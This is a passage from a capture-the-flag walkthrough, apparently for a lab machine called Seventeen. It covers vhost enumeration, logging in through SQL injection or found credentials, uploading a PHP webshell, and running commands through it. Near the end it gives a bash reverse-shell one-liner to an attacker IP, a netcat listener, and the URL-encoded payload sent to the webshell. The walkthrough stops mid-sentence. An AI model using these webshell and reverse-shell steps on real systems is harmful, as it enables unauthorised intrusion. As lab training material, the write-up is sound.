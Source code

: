 #### files
in the source code we see a folder named files at the root, let's see what it contains on the box

http://seventeen.htb/vendor/oldmanagement/files/

entering the first directory we see

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529162708.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529162708.png){:.glightbox}

papers.php seem to run the `id` command? 

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529164441.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529164441.png){:.glightbox}

interestingly there seems to be a php source file version at http://seventeen.htb/vendor/oldmanagement/files/31234/papers.phps

however it gives a 403 forbidden

The PDF contains an interesting note

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529162937.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529162937.png){:.glightbox}

let's add this to` /etc/hosts` and check it out

navigating to http://mastermailer.seventeen.htb we are redirected to http://mastermailer.seventeen.htb:8000/mastermailer/

even with the Kelly credentials we found earlier cannot use this, we get an error

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529175942.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529175942.png){:.glightbox}

with some more enumeration on this vhost, we see it hosts the same file management application as the main domain at http://mastermailer.seventeen.htb:8000/oldmanagement/

using the same sql injection (or simply Kelly's credentials) we login and try the file upload functionality at http://mastermailer.seventeen.htb:8000/oldmanagement/student_profile.php, and luckily this time it is successful. We upload a simple php webshell to confirm

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529182808.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529182808.png){:.glightbox}

now to check for remote code execution we access our webshell at http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=id

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529182957.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529182957.png){:.glightbox}

now we can submit a reverse shell, I frequently have success with this basic reverse shell: 
```bash
bash -i >& /dev/tcp/10.10.14.73/13897 0>&1
```

I stand up a listener with netcat ( `nc -lvnp 13897`), url encode the payload using cyberchef, and submit it at my webshell  http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E73%2F13897%200%3E%261

we don't get a callback,at this point I tried various reverse shell payloads trying to find one that would work successfully, when I remembered from enumeration
